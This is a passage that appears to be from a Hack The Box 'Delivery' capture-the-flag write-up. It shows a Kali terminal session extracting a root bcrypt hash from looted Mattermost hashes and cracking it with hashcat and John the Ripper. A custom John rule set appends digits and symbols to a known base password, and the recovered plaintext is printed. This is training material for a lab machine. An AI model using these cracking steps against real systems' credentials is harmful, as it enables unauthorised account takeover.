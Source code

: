 ```bash
[+] bcrypt 
--End of file 'maildeliverer-admin.passwd'-- 

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ echo 'PleaseSubscribe!' > base_passwords

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ cat mattermost-hashes.passwd| grep root > root.passwd

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ hashcat root.passwd base_passwords -m3200 -r d3adhob0.rule --force --username --separator ":"
hashcat (v6.1.1) starting...
...
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
...
```

Cracked the corresponding password for the root user using john custom rules:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ sudo nano /etc/john/john.conf
...
[List.Rules:Custom]
:
# Add one number
$[0-9]
# Add one number and a sybol
$[0-9]$[$%^&*()\\-_+=|\<>\[\]{}#@/~]
# Add two number
$[0-9]$[0-9]
# Add two number and a symbol
$[0-9]$[0-9]$[$%^&*()\\-_+=|\<>\[\]{}#@/~]
...

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ john root.passwd --wordlist=base_passwords --rules=Custom --fork=5                
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Node numbers 1-5 of 5 (fork)
Each node loaded the whole wordfile to memory
Press 'q' or Ctrl-C to abort, almost any other key for status
PleaseSubscribe!21 (root)
3 1g 0:00:00:02 DONE (2021-04-27 04:09) 0.3906g/s 19.92p/s 19.92c/s 19.92C/s PleaseSubscribe!11..PleaseSubscribe!21
2 0g 0:00:00:16 73.37% (ETA: 04:09:49) 0g/s 22.93p/s 22.93c/s 22.93C/s PleaseSubscribe!68@..PleaseSubscribe!69\
4 0g 0:00:00:16 74.04% (ETA: 04:09:49) 0g/s 23.07p/s 23.07c/s 23.07C/s PleaseSubscribe!69>..PleaseSubscribe!70^
5 0g 0:00:00:16 75.86% (ETA: 04:09:49) 0g/s 23.62p/s 23.62c/s 23.62C/s PleaseSubscribe!71{..PleaseSubscribe!72*
1 0g 0:00:00:16 73.92% (ETA: 04:09:49) 0g/s 23.07p/s 23.07c/s 23.07C/s PleaseSubscribe!69=..PleaseSubscribe!69~
Waiting for 4 children to terminate
Session aborted
```

